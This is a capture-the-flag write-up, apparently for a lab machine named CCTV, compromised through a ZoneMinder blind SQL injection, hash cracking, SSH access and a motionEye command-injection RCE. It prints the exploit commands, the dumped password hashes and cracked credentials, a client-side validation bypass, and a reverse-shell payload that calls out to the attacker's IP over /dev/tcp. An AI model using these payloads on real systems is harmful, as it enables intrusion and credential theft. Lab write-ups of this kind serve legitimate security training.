







# CCTV

## Recon

```
# Nmap 7.98 scan initiated Sun Mar 22 12:44:35 2026 as: /usr/lib/nmap/nmap --privileged -sC -sV -p 22,80 -oN nmap_scan 10.129.244.156
Nmap scan report for 10.129.244.156
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 22 12:45:52 2026 -- 1 IP address (1 host up) scanned in 77.14 seconds
```
- found two open ports lets see what we can find on port 80.
- When I tried to visit the site, it redirected to a domain **cctv.htb**. Add it to /etc/hosts

```
echo "10.129.244.156 cctv.htb" | sudo tee -a "/etc/hosts"   
```

- On visiting the site, we can see an advertising site about security solutions. There we can see a login portal .**staff login** on the top right.





- We can find a ZoneMinder login page. Well, I tried to use default creds **admin:admin**

- bhoom! logged in.

- Zoneminder is a full-featured, open source, state-of-the-art video surveillance software system. Monitor your home, office, or wherever you want.

- After logging in, we can find the version **v1.37.63**
  


- The above version is vulnerable to blind SQL injection [CVE-2024-51482](https://github.com/BridgerAlderson/CVE-2024-51482/tree/main)
- The bug is caused by the tid parameter being directly used in the SQL query. You can find a detailed explanation on the above GitHub page, along with a python poc script. 
- I downloaded the script. If you want, you can even use SQLmap.

```
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --test
[*] CVE-2024-51482 - ZoneMinder Blind SQL Injection Exploit
[*] Target: cctv.htb

[*] Logging in as 'admin' on cctv.htb...
[+] Login successful
[*] Measuring baseline response time...
[*] Baseline median: 0.259s
[*] Testing vulnerability with 2s sleep...
[*] Response time: 2.29s
[+] Target is vulnerable!
[+] Target is vulnerable!
```
- From the output, we can see the server is vulnerable. let try to dump the Databases. 

```
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --discover                   8s
[*] CVE-2024-51482 - ZoneMinder Blind SQL Injection Exploit
[*] Target: cctv.htb

[*] Logging in as 'admin' on cctv.htb...
[+] Login successful
[*] Measuring baseline response time...
[*] Baseline median: 0.243s
[*] Testing vulnerability with 2s sleep...
[*] Response time: 2.26s
[+] Target is vulnerable!
[*] Enumerating Databases...
[+] Found Database: information_schema                                           #
[+] Found Database: performance_schema
[+] Found Database: zm

[+] Databases found:
  1. information_schema                                           #
  2. performance_schema
  3. zm
```

- zm looks odd, let's try to see what it got.

```
 python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --tables zm             18m 10s
[*] CVE-2024-51482 - ZoneMinder Blind SQL Injection Exploit
[*] Target: cctv.htb

[*] Logging in as 'admin' on cctv.htb...
[+] Login successful
[*] Measuring baseline response time...
[*] Baseline median: 0.250s
[*] Testing vulnerability with 2s sleep...
[*] Response time: 2.31s
[+] Target is vulnerable!
[*] Enumerating tables in 'zm'...
[+] Found table: Config
[+] Found table: ControlPresets                                     %h
[+] Found table: Controls
[+] Found table: Devices
[+] Found table: Event_Data            }                         N
[+] Found table: Even~_U
[+] Found table: hvents                                                   +P
[+] Found table: Events_Archived            +P
[+] Found table: Events_Day                  &
[+] Found table: Events_Hour
[+] Found table: Events_Month
[+] Found table: Events_Tags
[+] Found table: Events_Week
[+] Found table: Filters
[+] Found table: Frames
[+] Found table: GroupsS
[+] Found table: Oroups_Ms
[+] Found table: Groups_Permissions  7t
[+] Found table: Logs
[+] Found table: Manufacturers                      "
[+] Found table: hapst                   P                      +P 7t
[+] Found table: Models
[+] Found table: MonitorPresets
[+] Found table: Monitor_Status
[+] Found table: Monitors
[+] Found table: Monitors_Permissions    8             &
[+] Found table: MontageLayouts                                    !
[+] Found table: Object_Types
[+] Found table: Reports                                                 !
[+] Found table: Server_Stats    "t
[+] Found table: Servers                       #                              ,
[+] Found table: Sessions
[+] Found table: Snapshots     !
[+] Found table: Snapshots_Events                                  , ,
[+] Found table: States     #                                              &&
[+] Found table: Stats   ,  ,D    ,  !&# ^,&P 8                 , 8      & ,&
[+] Found table: Storage            8   8           ,  8              #   #  "t
[+] Found table: Tbgs           &                         P    #      , ,    8 #
[+] Found table: TriggersX10
[+] Found table: hser_Preferences                         8!
[+] Found table: Users
[+] Found table: ZonePresets
[+] Found table: Zones
[+] Found table: 8            P
[+] Found table: P           
```

- Let's try to dump the users table; it may contain some juicy information like passwords. 
- Well, first, let's dump the column names of the users table


```
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --columns zm Users
[*] CVE-2024-51482 - ZoneMinder Blind SQL Injection Exploit
[*] Target: cctv.htb

[*] Logging in as 'admin' on cctv.htb...
[+] Login successful
[*] Measuring baseline response time...
[*] Baseline median: 0.253s
[*] Testing vulnerability with 2s sleep...
[*] Response time: 2.26s
[+] Target is vulnerable!
[*] Enumerating columns in 'zm.Users'...
[+] Found column: APIEnabled                                                !
[+] Found column: Control                                            ,
[+] Found column: Devices
[+] Found column: Email                    #
[+] Found column: Enabled                               !           ,
[+] Found column: Events       8                          &
[+] Found column: Groups
[+] Found column: HomeView
[+] Found column: Id   &       !
[+] Found column: Language                 !                      &
[+] Found column: MaxBandwihth
[+] Found column: Monitors
[+] Found column: Name                &            ,
[+] Found column: Password
[+] Found column: Phone
[+] Found column: Snapshots   !
[+] Found column: Stream
[+] Found column: System
[+] Found column: TokenMinExpiry
[+] Found column: Username
```
- Username and password, hah! Let's dump it!

```
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --dump zm Users "Username,Password"     
[*] CVE-2024-51482 - ZoneMinder Blind SQL Injection Exploit
[*] Target: cctv.htb

[*] Logging in as 'admin' on cctv.htb...
[+] Login successful
[*] Measuring baseline response time...
[*] Baseline median: 0.242s
[*] Testing vulnerability with 2s sleep...
[*] Response time: 2.25s
[+] Target is vulnerable!
[*] Dumping Data from 'zm.Users'...
[*] Row 1: {'Username': 'admin                                                                                                                           ', 'Password': '$2y$10$cmytVWFRnt1XfqsJtsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm                                                             ,      '}
[*] Row 2: {'Username': 'mark                                                                                                                            ', 'Password': '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.                                                                    '}
[*] Row 3: {'Username': 'superadmin                                                                                          #                           ', 'Password': '$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM8m                                                                    '}
```
-  We found some user hashes.
  


- From the above screenshot, we can see the hashes are bcrypt type.
- I copied the hashes to a file, hashes.txt, and tried to crack using John with rockyou.txt, and I found the password for the user mark
```
ohn hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
opensesame       (?)     
```
- Lets login **mark:opensesame**
- On Mark's user profile, I didn't find anything interesting.
- Tried login via SSH using mark creds and bhoom! We got into the system as Mark
```
ssh mark@cctv.htb
The authenticity of host 'cctv.htb (10.129.51.209)' can't be established.
ED25519 key fingerprint is: SHA256:KrrHjS+nu1wJEfv1/NxT1fI+ODJaSRdJtFg201G+tO0
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cctv.htb' (ED25519) to the list of known hosts.
mark@cctv.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu  7 May 07:54:31 UTC 2026

  System load:           0.1
  Usage of /:            71.7% of 8.70GB
  Memory usage:          28%
  Swap usage:            0%
  Processes:             257
  Users logged in:       0
  IPv4 address for eth0: 10.129.51.209
  IPv6 address for eth0: dead:beef::a0de:adff:fe94:4593

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

14 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
mark@cctv:~$ 

```

## Enumeration

- I started with **/etc/passwd** , found three users
```
cat /etc/passwd | grep -E "(/bin/bash|/bin/sh)"
root:x:0:0:root:/root:/bin/bash
mark:x:1000:1000:mark:/home/mark:/bin/bash
sa_mark:x:1001:1001::/home/sa_mark:/bin/sh
```
- After a while, I tried checking the listening port and found some 

```
ss -alt
State                       Recv-Q                      Send-Q                                            Local Address:Port                                               Peer Address:Port                      Process                      
LISTEN                      0                           4096                                                  127.0.0.1:8554                                                    0.0.0.0:*                                                      
LISTEN                      0                           70                                                    127.0.0.1:33060                                                   0.0.0.0:*                                                      
LISTEN                      0                           4096                                                 127.0.0.54:domain                                                  0.0.0.0:*                                                      
LISTEN                      0                           128                                                   127.0.0.1:8765                                                    0.0.0.0:*                                                      
LISTEN                      0                           4096                                                  127.0.0.1:8888                                                    0.0.0.0:*                                                      
LISTEN                      0                           4096                                                  127.0.0.1:9081                                                    0.0.0.0:*                                                      
LISTEN                      0                           151                                                   127.0.0.1:mysql                                                   0.0.0.0:*                                                      
LISTEN                      0                           4096                                                    0.0.0.0:ssh                                                     0.0.0.0:*                                                      
LISTEN                      0                           4096                                                  127.0.0.1:7999                                                    0.0.0.0:*                                                      
LISTEN                      0                           4096                                              127.0.0.53%lo:domain                                                  0.0.0.0:*                                                      
LISTEN                      0                           4096                                                  127.0.0.1:1935                                                    0.0.0.0:*                                                      
LISTEN                      0                           511                                                           *:http                                                          *:*                                                      
LISTEN                      0                           4096                                                       [::]:ssh                                                        [::]:*        
```
- Well, I tried port forwarding to access those ports.
```
ssh -L 8765:cctv.htb:8765 mark@cctv.htb
```
- I used local port forwarding using ssh .that make a tunnel between our local port 8765 and the remote port 8765.
- Now tried to access it from our browser using http://localhost:8765

 

- The port 8765 contains a motionEye interface(motionEyeOS is a free, open-source Linux distribution designed to transform a single board computer like a Raspberry Pi into a powerful video surveillance system.)
- On further investigation. I found the version number in the view source.

 

- The system runnin motionEye of version 4.7.1 which is vulnerable to [CVE-2025-60787](https://github.com/advisories/GHSA-j945-qm58-4gjx) .
-  This CVE is an authenticated RCE. MotionEye writes user-supplied values directly into Motion configuration files without sanitization, so we can inject shell syntax to get code execution. For more information, go to the above GitHub page.
- Before that, I have to log in. So I started searching for the config files of motionEye

```
find /etc/ -name '*motion*'
/etc/motioneye
/etc/motioneye/motion.conf
/etc/motioneye/motioneye.conf
/etc/motion
/etc/motion/motion.conf
/etc/logrotate.d/motion
find: ‘/etc/credstore.encrypted’: Permission denied
find: ‘/etc/multipath’: Permission denied
find: ‘/etc/ssl/private’: Permission denied
find: ‘/etc/polkit-1/rules.d’: Permission denied
/etc/systemd/system/multi-user.target.wants/motioneye.service
/etc/systemd/system/motioneye.service
find: ‘/etc/audit’: Permission denied
find: ‘/etc/cni/net.d’: Permission denied
find: ‘/etc/credstore’: Permission denied
```
- motionEye creds
```
cat /etc/motioneye/motion.conf
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password 


setup_mode off
webcontrol_port 7999
webcontrol_interface 1
webcontrol_localhost on
webcontrol_parms 2

camera camera-1.conf
```
- Whoop! whoop! We found the creds **admin:989c5a8ee87a0e9521ec81a79187d162109282f0**

```
cat /etc/systemd/system/multi-user.target.wants/motioneye.service
[Unit]
Description=motionEye Server
After=network.target local-fs.target remote-fs.target

[Service]
User=root
RuntimeDirectory=motioneye
LogsDirectory=motioneye
StateDirectory=motioneye
ExecStart=/usr/local/bin/meyectl startserver -c /etc/motioneye/motioneye.conf
Restart=on-abort

[Install]
WantedBy=multi-user.target
```
- As you can see, the service is running as root. So let's get our root shell using the RCE vulnerability.
- Well, let's test. I tried to get revshell using the below command
```
$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/10.10.15.136/4444 0>&1\"')").%Y-%m-%d-%H-%M-%S
```
- but the code is being blocked by browser-side validation JavaScript.
  
 
 
- It can be simply bypassed by the following command.
```
configUiValid = function() { return true; };
```
- Open developer tools and run the above in the console

- Now, let's get our revshell
```
$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/10.10.15.136/4444 0>&1\"')").%Y-%m-%d-%H-%M-%S
```
- We got our shell as root. flags are located at **/home/sa_mark/user.txt** & **/root/root.txt** 
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.136] from (UNKNOWN) [10.129.55.11] 60116
bash: cannot set terminal process group (3817): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# ls
ls
camera-1.conf
motion.conf
motioneye.conf
root@cctv:/etc/motioneye# 
```

**user.txt:6c48bd34914c879bd75e72ef1c94d981**

**Root.txt:0556c926219fb7c9ec66bcf8acfce35a**
